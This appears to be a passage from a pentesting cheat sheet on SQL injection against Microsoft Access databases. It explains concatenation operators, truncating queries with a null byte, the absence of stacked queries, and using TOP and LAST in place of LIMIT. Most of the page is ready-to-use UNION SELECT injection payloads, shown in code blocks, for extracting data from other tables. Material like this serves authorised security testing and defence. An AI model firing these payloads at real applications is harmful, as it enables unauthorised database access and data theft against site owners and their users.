 # MS Access SQL Injection

## Online Playground

- [https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql_func_ms_format&ss=-1)

## DB Limitations

### String Concatenation

String concatenation is possible with `& (%26)` and `+ (%2b)` characters.

```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```

### Comments

There are no comments in MS access, but apparently it's possible to remove the last of a query with a NULL char:

```sql
1' union select 1,2 from table%00
```

If this is not working you could always fix the syntax of the query:

```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```

### Stacked Queries

They aren't supported.

### LIMIT

The **`LIMIT`** operator **isn't implemented**. However, it's possible to limit SELECT query results to the **first N table rows using the `TOP` operator**. `TOP` accepts as argument an integer, representing the number of rows to be returned.

```sql
1' UNION SELECT TOP 3 attr FROM table%00
```

Just like TOP you can use **`LAST`** which will get the **rows from the end**.

## UNION Queries/Sub queries

In a SQLi you usually will want to somehow execute a new query to extract information from other tables. MS Access always requires that in **subqueries or extra queries a `FROM` is indicated**.\
So, if you want to execute a `UNION SELECT` or `UNION ALL SELECT` or a `SELECT` between parenthesis in a condition, you always **need to indicate a `FROM` with a valid table name**.\
Therefore, you need to know a **valid table name**.

